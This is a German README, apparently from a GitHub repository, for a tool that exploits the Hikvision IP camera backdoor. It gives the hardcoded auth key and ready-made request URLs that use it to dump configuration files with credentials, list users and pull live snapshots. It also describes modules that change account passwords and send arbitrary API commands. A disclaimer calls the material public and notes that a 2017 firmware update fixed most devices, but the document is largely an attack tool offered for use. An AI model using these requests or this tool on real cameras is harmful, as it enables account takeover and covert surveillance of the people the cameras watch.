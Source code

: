 # hikvision-sdk-cam

English version can be found [here](https://github.com/MatrixEditor/hikvision-sdk-cam/blob/main/eng.md).

<b>
DISCLAIMER: Alle informationen, die hier gepostet werden/ wurden, sind öffentlich auf anderen Seiten zugänglich. Dieses Repository bietet nur einen generellen Überblick über die Möglichkeitenvon Übergriffen, die durch die gebotenen Schwachstellen entstanden sind.
</b>

<b>UPDATE: Nach einem Firmware-Update 2017 sind die meisten Geräte gegen diese Schwachstelle immun. [Hier](https://sergei.nz/reverse-engineering-hikvision-sadp-tool/) gibt es einen Artikel zum Reverse-Engineering des neuen Passwort-Reset-Tools von Hikvision.</b>

## Backdoor

Es ist schon seit ein paar Jahren bekannt, dass es eine Backdoor in den Hikvision-Kameras gibt. Diese hätte geheim gehalten werden können, hätte man den Authentifizierungsschlüssel nicht in ein open-source Passwort-Reset-Tool geschrieben (Stichwort: HikPassword-Helper). Der Schlüssel lautet:

    AUTH_KEY = 'YWRtaW46MTEK'

Mithilfe dieses Schlüssels ist der Zugriff auf die interne Web-API der Kamera grundsätzlich möglich. Die Befehle dieser API sind in der Datei 'websdk.js' zu finden (einfach über einen beliebigen Browser die login-Seite überprüfen). Ein paar stehen mit Erklärung dazu in der Datei [commands.py](https://github.com/MatrixEditor/hikvision-sdk-cam/blob/main/src/base/commands.py).

## Zugriff erhalten

Um nun Zugriff auf das Gerät zu bekommen, gibt es verschiedene Wege, die recht einfach umzusetzen sind:

1. Die 'configData'-Datei herunterladen, entschlüsseln und nach den Credentials für registrierten Accounts suchen (Stichwort: hikvision-decryptor github)

    LINK: http:// [IP-ADDR] /System/configurationFile?auth=YWRtaW46MTEK

2. Die registrierten Nutzer/Accounts über einen Link laden und für einen das Passwort ändern (Anleitung dazu weiter unten)

### Links ohne Authentifizierung

Dieser Link zeigt Informationen zu allen registrierten Nutzern an:

    * http://<IP-ADDRESS>/Security/users?auth=YWRtaW46MTEK oder http://<IP-ADDRESS>/ISAPI/Security/users?auth=YWRtaW46MTEK

Hiermit kann ein (live)-Standbild der Kamera übertragen werden:

    *http://<IP-ADDRESS>/onvif-http/snapshot?auth=YWRtaW46MTEK

By the way: Die meisten API-Abfragen, siehe [commands.py](https://github.com/MatrixEditor/hikvision-sdk-cam/blob/main/src/base/commands.py) können auch mit diesem AUTH_KEY getätigt werden.

URL für einen Livestream (mit VLC-Player oder QuickTime-Player wiedergeben; der AUTH_KEY funktionier hierbei nicht):

    rtsp://<UNAME>:<PWD>@192.168.189.5:554/Streaming/channels/1/

## Main.py

Der Aufbau dieses Programms ist gleich dem in dem Repository 'Frontier-Silicon-Radio'. Nach dem Start können nur noch die Befehle 'use', 'quit' und 'modules' benutzt werden:

* use [module-name] : nutzt das angegebene modul (die Namen der Module können mit 'modules' ausgegeben werden)
* modules : gibt die Namen aller geladenen Module aus
* quit : beendet das Programm

Wählt man nun ein Modul aus, wird dies im Konsolen-Prompt mit angegeben. Jetzt können nur noch die Befehle 'set', 'run', 'show_options' und 'back' benutzt werden:

* set [option] [value] : Setzt die gewählte Option auf den gegebenen Wert
* show options : gibt eine Liste mit allen nötigen Parametern aus
* run : startet das modul
* back : geht in das Startmenü zurück.

## Module

### /injection/password_changer

Mit diesem kleinen Script kann das Passwort eines bestimmten Nutzers/Accounts geändert werden (hierzu benötigt man lediglich den AUTH_KEY). Um dies zu tun benötigt das Programm folgende eingaben:

    * IP-Addresse der Kamera,
    * den Usernamen der Accounts,
    * das neue Passwort,
    * und die User-ID des Accounts.

### /injection/user_encounter

Hiermit können alle registrierten Nutzer mit ihrer ID, dem Usernamen und ihrem Rang ausgelesen werden. Um dies zu tun benötigt das Programm folgende eingaben:

    * IP-Adresse der Kamera

### /isapi/command_executor

Wie der Name dieses Moduls schon verrät, versucht hier das Programm eine HTTP-GET Anfrage zu machen um eine API-Abfrage zu tätigen. Dazu benötigt das Programm folgende eingaben:

    * IP-Addresse der Kamera,
    * den Befehl, angefangen mit einem  '/'

Falls hierbei keine Rückmeldung erscheint, einfach den Link im Browser eingeben und schauen, ob der Link doch funktioniert. Aus irgendwelchen Gründen schafft es die 'requests'-API nicht, die Authentifizierung der Seiten mit dem AUTH_KEY nicht, der Browser (getestet mit Chrome und Firefox) schon.

 
